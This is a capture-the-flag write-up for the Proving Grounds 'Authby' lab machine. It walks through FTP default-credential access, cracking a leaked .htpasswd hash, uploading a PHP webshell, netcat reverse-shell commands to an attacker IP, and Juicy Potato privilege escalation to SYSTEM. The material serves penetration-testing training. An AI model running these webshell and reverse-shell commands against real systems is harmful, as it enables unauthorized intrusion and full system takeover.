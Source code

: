 ```yaml
---
description: Writeup for Authby from Offensive Security Proving Grounds (PG)
---
```


# Authby

## Service Enumeration

`nmapAutomator.sh -H 192.168.85.46 -t full`

`nmapAutomator.sh -H 192.168.85.46 -t vulns`

### FTP

Anonymous login allowed.

![](../../.gitbook/assets/40cfb057749e43a990907b307b638aba.png)

While we cannot access these files, we can see that there are some account names.

![](../../.gitbook/assets/0a2edee418e842e4b7c1828d8e2b8b1c.png)

Using the account `admin:admin`, we get access to some other files.

![](../../.gitbook/assets/7be4c6dead964fbfaec383280f08c380.png)

The `.htaccess` and `.htpasswd` files are leaked.

![](../../.gitbook/assets/e776c36431db4b93a15994031cc7939e.png)

.htaccess

```
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>
```

.htpasswd

```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Passing the `.htpasswd` hash into John the Ripper, we find the credentials to authenticate into the HTTP server.

![](../../.gitbook/assets/bfb9cc2aaeab49158478a651a9d8a10d.png)

![](../../.gitbook/assets/2cd7d80a55de4d43a0b44df1f215b49c.png)

### RDP

![](../../.gitbook/assets/df3789bd1922460f8f7a9d819749753b.png)

### Nonstandard Ports

![](../../.gitbook/assets/5c7893d2d0964eebae8877ae720acdae.png)

### HTTP

![](../../.gitbook/assets/a13f5f2be1f74edcb940d14977663974.png)

Using the previously found credentials (`offsec:elite`), we can authenticate into the application.

![](../../.gitbook/assets/f8c64ee6bb2540ba95059dc4d09f9328.png)

### Subdirectory Enumeration

`gobuster dir -u http://192.168.85.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite`

![](../../.gitbook/assets/e9e3eed9a56843f998f59dc7f3dc5db1.png)

`gobuster dir -u http://192.168.85.46:242/phpmyadmin -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite -s 200,204,301,302,307,401`

## Exploitation

Using the PHP backdoor from `/usr/share/webshells/php/simple-backdoor.php`, we can upload this backdoor through the `admin` FTP account to the web root. Then, we can visit the `simple-backdoor.php` and use the `cmd=` parameter to achieve RCE.

![](../../.gitbook/assets/bc1ba58429bc4867800b3b6cb46e556f.png)

Copy `nc.exe` through SMB:

`http://192.168.85.46:242/simple-backdoor.php?cmd=copy \\192.168.49.85\ROPNOP\netcat\nc.exe .`

Trigger a reverse shell:

`http://192.168.85.46:242/simple-backdoor.php?cmd=nc.exe -e cmd.exe 192.168.49.85 443`

On our listening machine, we get a reverse shell.

![](../../.gitbook/assets/54b41425cb8b4a96af76ab0675f16f86.png)

![](../../.gitbook/assets/b24523a311fc49bb965e3d59dc2c33ba.png)

## Privilege Escalation

First, we know that `SeImpersonatePrivilege` is enabled.

![](../../.gitbook/assets/d717307d71944017b76803599566a274.png)

We can perform privilege escalation using Juicy Potato.

However, there are two challenges.

1. This is an x86 system, so we need an x86 Juicy Potato executable. I used the one from here: [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
2. The default CLSID doesn't work. Juicy Potato will return `COM -> recv failed with error: 10038`.

`systeminfo` shows that this is Windows Server 2008.

![](../../.gitbook/assets/c030a1ac33394a86ba17426d70dd3e14.png)

We can use one of the BITS CSLIDs from here: [https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server\_2008\_R2\_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server\_2008\_R2\_Enterprise). I used `{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`.

![](../../.gitbook/assets/fe5b98fc281e4f108da259928e60e839.png)

Now, we can use the `nc.exe` we transferred previously to get another reverse shell, this time with SYSTEM privileges.

`juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

![](../../.gitbook/assets/c157e7dea6834ec6a3d240f1ce3eb823.png)

On our listening machine:

![](../../.gitbook/assets/ab393a6a63df465e8439202e42aa018e.png)

![](../../.gitbook/assets/51120c1f70f14bfa92f41d88bb66a50d.png)

